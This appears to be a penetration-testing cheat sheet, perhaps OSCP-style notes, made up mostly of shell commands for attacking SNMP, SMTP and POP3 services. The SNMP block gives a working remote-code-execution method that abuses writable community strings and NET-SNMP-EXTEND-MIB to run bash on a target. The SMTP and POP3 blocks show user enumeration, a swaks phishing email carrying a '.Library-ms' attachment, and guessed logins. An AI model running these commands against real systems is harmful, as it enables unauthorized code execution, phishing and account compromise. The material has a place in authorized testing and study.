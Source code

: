 ```shell
# These OIDs must be set correctly:
# - nsExtendExecType = 1 (exec)
# - nsExtendRunType = 1 (run-on-read)
# - nsExtendStatus = 1 (active)
snmpwalk -v [VERSION_SNMP] -c [COMM_STRING] [DIR_IP] NET-SNMP-EXTEND-MIB::nsExtendObjects #get extended
snmpwalk -v 1 -c public 192.168.10.10  NET-SNMP-EXTEND-MIB::nsExtendOutputFull

# How to check writable permission on SNMP
# Try writing a test OID (like sysContact). If it succeeds, SNMP is writable.
snmpset -v 1 -c public $IP SNMPv2-MIB::sysContact.0 s "test"

# If writable, try checking access to extend entries (optional)
snmpwalk -v 1 -c public $IP NET-SNMP-EXTEND-MIB


# snmpset command for RCE
# This creates a new extend entry named "HAX" that runs `/bin/bash -c 'id > /tmp/pwned'`
snmpset -v 1 -c public $IP \
  NET-SNMP-EXTEND-MIB::nsExtendCommand.\"HAX\" s "/bin/bash" \
  NET-SNMP-EXTEND-MIB::nsExtendArgs.\"HAX\" s "-c 'id > /tmp/pwned'" \
  NET-SNMP-EXTEND-MIB::nsExtendExecType.\"HAX\" i 1 \
  NET-SNMP-EXTEND-MIB::nsExtendRunType.\"HAX\" i 1 \
  NET-SNMP-EXTEND-MIB::nsExtendStatus.\"HAX\" i 1

# Trigger the RCE
snmpwalk -v 1 -c public $IP NET-SNMP-EXTEND-MIB::nsExtendOutput1Line.\"HAX\"

# Cleanup (optional)
snmpset -v 1 -c public $IP NET-SNMP-EXTEND-MIB::nsExtendStatus.\"HAX\" i 6  # destroy(6)
```
#### SMTP/POP3/IMAP
```shell
# SMTP Enumeration
nmap x.x.x.x --script=smtp* -p 25
# smtp-open-relay, smtp-commands
# smtp commands after connecting through netcat
smtp> VRFY <emailaddr>
nc -C 192.168.227.199 25 # sometimes server wait for carriage return to in case of windows \r\n
telnet ip 25
#this can be done through evolution GUI tool
sudo swaks -t victim@domain.com --from test@domain.com -ap --attach @config.Library-ms --server 192.168.227.199 --body @body.txt --header "Subject: Problems" --suppress-data
# user enumeration
smtp-user-enum -M RCPT -D domain.com -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 192.168.227.199

# POP3
#connect and check for banner
telnet $ip 110

EHLO all

#guess login credentials
USER pelle
PASS admin
#list all emails
list
#retrieve email number 5 for example
retr 5
```
#### FTP
```shell
```